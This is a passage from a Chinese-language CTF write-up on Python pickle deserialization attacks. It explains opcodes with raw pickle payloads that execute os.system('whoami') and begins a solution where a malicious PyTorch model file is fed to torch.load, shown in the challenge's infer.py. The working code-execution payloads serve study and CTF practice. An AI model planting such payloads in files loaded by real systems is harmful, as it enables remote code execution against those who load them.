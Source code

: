 `cos`import库，`t`表示从上一个`(`开始把后面的元素组合为元组，上述代码只有一个`S‘whoami'`，就构成`['whoami']`，R表示栈的第一个对象`system`作为函数，第二个对象也就是`['whoami']`作为参数调用函数，组合起来就是`system(whoami)`（不需要单引号包裹whoami因为已经用S’‘表示了数据类型）



2. i

```
b'''(S'whoami'
ios
system
.'''
```

`s`生成system-whoami键值对并添加到栈的第三个对象，并把whoami和system出栈，o实例化system-whoami对象，i调用o实现函数调用。`system(whoami)`



3. o

```
b'''(cos
system
S'whoami'
o.'''
```

o操作调用system为函数，whoami为参数执行。和R区别不同的是参数对象不用为元组



### 题解

如果认真了解过python反序列化，每篇文章开始几乎都会介绍python反序列化的入口函数，也就是pickle模块的pickle.load和pickle.loads，而torch.load反序列化的方式和pickle.load完全相同，所以利用方式也相同。

题目打开为如下界面：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221106164307866.png)



下载解压附件2d_model.zip。题目描述上传模型由infer.py运行。infer.py源码：

```python
import io
import json
import base64

import torch
import matplotlib
import matplotlib.image

from models import SimpleGenerativeModel


def infer(pt_file):
    # load input data
    tag_ids = torch.load("dataset/tags_10.pt", map_location="cpu")

    # args
    n_tags = 63
    dim = 8
    img_shape = (64, 64, 3)
    
    # load model
    model = SimpleGenerativeModel(n_tags=n_tags, dim=dim, img_shape=img_shape)
    model.load_state_dict(torch.load(pt_file, map_location="cpu"))
    
    # generate noise
    torch.manual_seed(0)
    n_samples = tag_ids.shape[0]
```